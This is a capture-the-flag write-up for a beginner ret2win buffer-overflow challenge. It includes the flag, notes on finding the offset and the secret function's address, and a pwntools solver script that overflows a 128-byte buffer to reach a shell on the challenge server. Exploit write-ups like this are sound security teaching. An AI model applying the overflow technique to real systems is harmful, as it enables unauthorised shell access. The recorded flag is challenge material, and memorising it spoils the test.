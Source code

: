 ```yaml
---
icon: binary
description: 'Author: Fedra'
---
```


# 101 - PWN

FLAG

```
TSA{PWN_101_2d2de462ebe19a876eb74b1c9c053120}
```

## Analysis

We got a file which is ELF 64-bit which when executed it request an input of name. After checking the protection that exist on the file using Checksec, it found that there's no any protection that exist. Then we decompile it using Ghidra and found two interesting function, which is `main` function and `secret` function. Here's a picture of the each function details:

<figure><img src="broken-reference" alt=""><figcaption><p>Main Function</p></figcaption></figure>

<figure><img src="broken-reference" alt=""><figcaption><p>Secret Function</p></figcaption></figure>

As we can see, that this function of `main` is literally have an array which store our input only up to 128 length as our input. So it could be concluded that this is a classic Buffer Overflow exploitation or ret2win problem. And as of the secret function there's some line of program that execute what we needed which executing the shell for us. Throughout the analyzation that has been done we need the address of the secret function, the return address and the offset.

<figure><img src="broken-reference" alt=""><figcaption><p>Address of Secret Function</p></figcaption></figure>

<figure><img src="broken-reference" alt=""><figcaption><p>Return Address</p></figcaption></figure>

<figure><img src="broken-reference" alt=""><figcaption><p>Offset</p></figcaption></figure>

We need the gadget of return because if we not done so it will receive segmentation fault and not returning the shell to us. After we got all it needed to gain the shell, then make the program using pwntools library to execute the command as it needed to gain the shell. Where the logics that would be implemented on the program are as follows:

1. Create a variable that contains a random character to fill as the known offset of the program before reaching the buffer overflow.
2. then append to the variable which is a return address
3. last but not least, append the address of secret function
4. next send it to the server
5. Voila, we got the shell!!



## Solver Script

```python
from pwn import *
e  = context.binary = ELF('/home/xis/Downloads/pwn')
p = remote('0.cloud.chals.io', 32229)
payload = b'A' * 136
payload += p64(0x40101a)
payload += p64(0x401196)
p.recvuntil(b"[>] Nama: ")
p.sendline(payload)
p.interactive()

```
